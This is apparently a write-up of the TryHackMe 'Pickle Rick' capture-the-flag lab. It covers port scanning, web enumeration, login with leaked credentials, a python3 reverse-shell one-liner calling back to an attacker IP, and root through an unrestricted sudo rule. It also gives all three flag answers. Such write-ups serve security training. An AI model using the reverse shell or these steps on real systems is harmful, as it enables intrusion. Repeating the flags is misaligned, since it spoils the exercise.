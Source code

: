 https://tryhackme.com/room/picklerick

BoxIP = 10.10.233.219

**Basic Enumeration**


nmap -sC -sV -Pn -oN nmap_initial 10.10.233.219

-sC = common scripts

-sV = Versioning

-Pn = no pings

-oN output notation


**Open Ports**

Open 10.10.233.219:22

Open 10.10.233.219:80



**automated web enumeration**

nikto -h 10.10.233.219

gobuster dir -u http://10.10.233.219/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 64 -x txt,php 

/assets

/portal.php

/robots.txt


**robots.txt**

Wubbalubbadubdub


**Page source points of interest**

homepage = 

    Note to self, remember username!

    Username: R1ckRul3s

  
 **/protals.php**

using the found username and the word from robots.txt grants us access to a command panel page
 
 
 **Initial Foothold**

There is some filtering on the command pannel for concatonation and some other commands but using 'strings' command allows us to read files
 Ingredient 1 = mr. meeseek hair
 
 
 Using Netcat does not work but puttering around I found that python3 was usable on the system. Using revshells.com I grabbed a python3 reverse shell script

cdexport RHOST="10.9.2.110";export RPORT=9001;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
 
 and we popped a shell on a NC listener
 
Navigating to a home directory for Rick we find the second ingredient
Ingredient 2 = 1 jerry tear

**PrivEsc**
 sudo -l
Matching Defaults entries for www-data on
    ip-10-10-95-19.eu-west-1.compute.internal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on
        ip-10-10-95-19.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL


well this is going to be easy

www-data@ip-10-10-95-19:/home/rick$ sudo su

sudo su

root@ip-10-10-95-19:/home/rick# whoami

whoami

root

root@ip-10-10-95-19:/home/rick# 


We have gotten root now lets find that last ingredient

Ingredient 3: fleeb juice




 
 
  
